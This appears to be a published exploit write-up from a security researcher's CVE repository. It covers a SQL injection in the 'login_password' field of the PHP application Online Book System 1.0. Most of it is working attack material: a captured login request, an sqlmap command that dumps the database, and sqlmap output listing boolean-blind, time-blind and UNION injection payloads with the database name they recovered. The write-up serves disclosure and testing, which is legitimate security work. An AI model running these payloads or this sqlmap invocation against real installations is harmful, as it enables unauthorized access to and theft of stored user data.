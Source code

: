 # Online Book System- SQL Injection - 2
+ **Exploit Title:** Online Book System- SQL Injection
+ **Date:** 2024-26-03
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/online-book-system-in-php-css-js-and-mysql-free-download/
+ **Software Link:** https://download.code-projects.org/details/74c24d93-431e-4e31-acc1-802f14caef5c
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Online Book System 1.0 allows SQL Injection via the 'login_password' parameter at "localhost/BookStore-master 1/index.php". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "localhost/BookStore-master 1/index.php"
+ Try logging in by typing random things
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:

```
POST /BookStore-master%201/index.php HTTP/1.1
Host: localhost
Content-Length: 62
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/BookStore-master%201/index.php?Message=successfully%20logged%20out!!
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: language=en; continueCode=5vLeVxlRzkNb47vKDPMo5Lq8wdzLtvf1Hem0jn6EZm2ygrX19BpaQWOJY3oM; welcomebanner_status=dismiss; cookieconsent_status=dismiss; PHPSESSID=b7g245tvc3rrau75lpnecgj00n
Connection: close

login_username=test%40test.com&login_password=123&submit=login

```

+ Use sqlmap to exploit. In sqlmap, use 'login_password' parameter to dump the database.
```
sqlmap -r r.txt -p login_password --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: login_password (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: login_username=test@test.com&login_password=123' AND 4001=(SELECT (CASE WHEN (4001=4001) THEN 4001 ELSE (SELECT 8570 UNION SELECT 6855) END))-- -&submit=login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: login_username=test@test.com&login_password=123' AND (SELECT 7771 FROM (SELECT(SLEEP(5)))JoQz)-- kWnq&submit=login

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: login_username=test@test.com&login_password=123' UNION ALL SELECT CONCAT(0x717a627871,0x72637555694865686c74444d73696e4e764e73776b6a43584351724d66665857496b516179795771,0x71707a7871),NULL-- -&submit=login
---
[12:18:52] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[12:18:52] [INFO] fetching current database
current database: 'u385439067_store'

```
+ current database: `u385439067_store`

![Ekran görüntüsü 2024-03-26 192043](https://github.com/BurakSevben/CVEs/assets/117217689/b6b0fdea-788e-404b-9612-69a247488e82)

